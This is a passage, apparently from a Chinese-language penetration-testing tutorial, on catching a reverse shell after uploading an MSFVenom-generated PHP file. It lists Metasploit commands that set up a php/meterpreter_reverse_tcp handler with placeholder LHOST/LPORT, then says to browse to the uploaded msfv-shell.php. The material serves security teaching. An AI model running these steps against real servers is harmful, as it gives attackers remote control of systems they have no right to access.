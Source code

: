 ![](img/876555ff-ef13-4388-a779-5c047f645c44.png)

图 12：上传了 MSFVenom 恶意 PHP 文件

1.  在连接到上传的 PHP 页面的位置之前，我们需要在 Metasploit 中设置一个处理程序。为此，我们将使用`msfconsole`命令打开 Metasploit Framework。

1.  Metasploit Framework 加载后，我们将使用以下命令创建处理程序：

```
use exploit/multi/handler
set PAYLOAD php/meterpreter_reverse_tcp
set LHOST <LHOST value>
set LPORT <LPORT value>
exploit
```

1.  处理程序创建后，我们可以导航到上传位置，然后点击 msfv-shell.php 文件：
